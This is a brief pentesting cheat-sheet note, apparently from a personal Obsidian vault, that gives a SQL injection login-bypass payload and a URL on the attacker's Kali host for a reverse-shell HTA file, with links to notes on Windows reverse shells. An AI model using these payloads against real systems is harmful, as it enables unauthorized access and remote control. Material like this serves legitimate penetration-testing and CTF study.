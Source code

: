 Auth bypass:
```
admin' or '1'='1'--
```
reverse hta file:
[[Python#Server]]
[[1._Reverse Shells (WIN)#hta file]]
[[1._rlwrap]]
```
URL: http://$KALI/reverse.hta
```